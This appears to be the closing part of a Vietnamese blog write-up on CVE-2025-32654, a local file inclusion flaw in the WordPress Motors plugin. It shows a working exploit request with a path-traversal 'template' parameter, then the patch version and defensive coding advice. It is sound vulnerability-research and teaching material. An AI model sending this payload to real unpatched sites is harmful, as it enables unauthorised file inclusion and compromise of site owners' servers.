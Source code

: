 ```http
X-PwnFox-Color: cyan

action=grid_tabs_widget&tab_type=popular&per_page=8&template=/partials/../../../../../payload&img_size=&security=d15dd83890
```

**Result**:

{{< figure src="result.png" caption="Kết quả LFI thành công" >}}

## Conclusion

CVE-2025-32654 là một **LFI** trong plugin **Motors ≤1.4.71**: tham số `template` không được ràng buộc, cho phép path traversal và `include()` file bất kỳ. Endpoint công khai (`wp_ajax_nopriv_`) và nonce xuất trên front‑end giúp kẻ tấn công dễ khai thác. Lỗ hổng được vá trong **v1.4.72** bằng cách chuẩn hoá tên file và kiểm tra **whitelist**.

## Key takeaways

* Không dùng input thô để build đường dẫn cho `include`.
* Ưu tiên **whitelist** template/đường dẫn hợp lệ.
* Chuẩn hoá (e.g. `sanitize_file_name()`/`sanitize_key()`), dùng `realpath()` để so sánh với thư mục gốc.
* Nếu endpoint phải công khai, bắt buộc kiểm soát chặt input chứ đừng chỉ trông vào nonce.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Motors Plugin <= 1.4.71 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/motors-car-dealership-classified-listings/vulnerability/wordpress-motors-plugin-1-4-65-local-file-inclusion-vulnerability-2?_s_id=cve)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-14-cve-2025-32654/  

